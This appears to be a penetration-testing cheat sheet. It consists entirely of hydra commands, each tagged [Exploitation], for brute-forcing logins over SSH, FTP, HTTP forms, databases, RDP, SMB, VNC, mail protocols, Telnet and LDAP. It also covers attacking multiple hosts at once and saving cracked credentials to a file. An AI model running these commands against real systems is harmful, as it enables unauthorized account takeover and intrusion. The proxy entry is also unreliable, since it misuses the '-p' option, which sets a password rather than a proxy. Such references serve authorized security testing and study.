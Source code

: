 # [Exploitation] Brute-force SSH login --hydra
hydra -l <user> -P <password_list> ssh://<target_ip>

# [Exploitation] Brute-force SSH with multiple users --hydra
hydra -L <user_list> -P <password_list> ssh://<target_ip>

# [Exploitation] Brute-force FTP login --hydra
hydra -l <user> -P <password_list> ftp://<target_ip>

# [Exploitation] Brute-force FTP (anonymous enabled) --hydra
hydra -l anonymous -P <password_list> ftp://<target_ip>

# [Exploitation] Brute-force HTTP Basic Auth --hydra
hydra -l <user> -P <password_list> <target_ip> http-get /<path>

# [Exploitation] Brute-force HTTP Form (POST login) --hydra
hydra -l <user> -P <password_list> <target_ip> http-post-form "/<login_path>:username=^USER^&password=^PASS^:F=<fail_msg>"

# [Exploitation] Brute-force HTTP Form with CSRF token --hydra
hydra -l <user> -P <password_list> <target_ip> http-post-form "/<login_path>:username=^USER^&password=^PASS^&token=xyz:F=<fail_msg>"

# [Exploitation] Brute-force MySQL login --hydra
hydra -l <user> -P <password_list> mysql://<target_ip>

# [Exploitation] Brute-force PostgreSQL login --hydra
hydra -l <user> -P <password_list> postgres://<target_ip>

# [Exploitation] Brute-force RDP login --hydra
hydra -t 1 -V -f -l <user> -P <password_list> rdp://<target_ip>

# [Exploitation] Brute-force SMB login --hydra
hydra -l <user> -P <password_list> smb://<target_ip>

# [Exploitation] Brute-force VNC login --hydra
hydra -P <password_list> vnc://<target_ip>

# [Exploitation] Brute-force POP3 login --hydra
hydra -l <user> -P <password_list> pop3://<target_ip>

# [Exploitation] Brute-force IMAP login --hydra
hydra -l <user> -P <password_list> imap://<target_ip>

# [Exploitation] Brute-force SMTP login --hydra
hydra -l <user> -P <password_list> smtp://<target_ip>

# [Exploitation] Brute-force Telnet login --hydra
hydra -l <user> -P <password_list> telnet://<target_ip>

# [Exploitation] Brute-force LDAP login --hydra
hydra -l <user> -P <password_list> ldap2://<target_ip>

# [Exploitation] Brute-force against multiple hosts --hydra
hydra -l <user> -P <password_list> -M <targets_file> ssh

# [Exploitation] Use proxy for attack (e.g. Burp) --hydra
hydra -l <user> -P <password_list> <target_ip> http-get /<path> -o results.txt -V -e ns -vV -f -s <port> -p <proxy_ip>:<proxy_port>

# [Exploitation] Resume interrupted attack --hydra
hydra -R

# [Exploitation] Save successful attempts to a file --hydra
hydra -l <user> -P <password_list> ssh://<target_ip> -o <output_file>

# [Exploitation] Verbose mode with debug output --hydra
hydra -l <user> -P <password_list> ssh://<target_ip> -V -d

# [Exploitation] Limit number of parallel tasks (threads) --hydra
hydra -l <user> -P <password_list> ssh://<target_ip> -t <n_threads>
